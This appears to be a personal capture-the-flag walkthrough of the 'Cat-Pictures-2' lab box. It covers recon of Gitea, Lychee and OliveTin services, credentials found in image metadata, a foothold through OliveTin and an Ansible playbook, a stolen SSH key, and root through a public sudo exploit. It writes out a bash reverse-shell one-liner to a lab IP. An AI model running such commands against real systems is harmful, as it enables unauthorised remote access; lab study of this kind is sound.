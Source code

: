 # Cat-Pictures-2 Helped-Through


Name: Cat-Pictures-2
Date:  13/07/2023
Difficulty:  Easy
Goals:  
- Warm up
- Git pwn tooling, tooled up
Learnt:
Beyond Root:
- Update H4ddix B4dger for an hour
- Ansible for Vulnerable Machines outlined in [[Absolute-Helped-Through]] and [[Response-Helped-Through]]


![](f5054e97620f168c7b5088c85ab1d6e4.jpg)

- [[Cat-Pictures-2-Notes.md]]
- [[Cat-Pictures-2-CMD-by-CMDs.md]]

Due to time and the amount of it either this will get swept under into the pile and I am trying to not start new boxes and to cut it off at the pass and finish with [Alh4zr3d](https://www.twitch.tv/videos/1869386033) while I build my Windows VM for [[Absolute-Helped-Through]] and [[Response-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Robots.txt
```
Disallow: /data/
Disallow: /dist/
Disallow: /docs/
Disallow: /php/
Disallow: /plugins/
Disallow: /src/
Disallow: /uploads/
```

Gitea is running on 3000
```
|     Set-Cookie: i_like_gitea=e9214322330dc1c9; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ZEVmBSA53-Qcd_iTesJat_fu4p06MTY4ODIzMjE0NjY0NTE5MTM3OQ; Path=/; Expires=Sun, 02 Jul 2023 17:22:26 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
```

git pwning tools
git log HEAD root and lychee usage
https://github.com/electerious/Lychee.git
1337 Olive Tin Version: 2022-10-19 - https://docs.olivetin.app/
8080 SimpleHTTP/0.6 Python/3.6.9

Once again data in the pictures...
![](exifisgood.png)

Credentials and references to ansible
![1080](ctfy.png)

Gitea is self-hosted git service
![](gitearoot.png)

A like hocky 
![](giteasignin.png)

The first flag is in this repository
![](flag1.png)

No low hanging fruit
![](nocredreuse.png)

[Olive Tin](https://www.olivetin.app/) to run shell commands

```
bash -i >& /dev/tcp/10.11.3.193/6969 0>&1
```

It is running this playbook
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Editting the playbook
![](6969.png)

To get a shell, I then copied the id_rsa and got a ssh shell 
![](shellonbox.png)

Tried Polkit because I never use it and Al talks about Kernel exploits, but it failed. Al uses [CtpGibbon SAMEdit](https://github.com/CptGibbon/CVE-2021-3156) to root the box. All the other written write ups exploit the vulnerable version of sudo. So I am glad I used this to start off the day.

![](cptgibbonsamedit.png)

## Beyond Root

[Git Dumper](https://github.com/arthaud/git-dumper) - requires pip, but dumped some stuff
![](dumpedsomestuff.png)

[Trufflehog](https://github.com/trufflesecurity/trufflehog) can check organisation, github, s3 buckets, etc although it was not very useful in this scenario.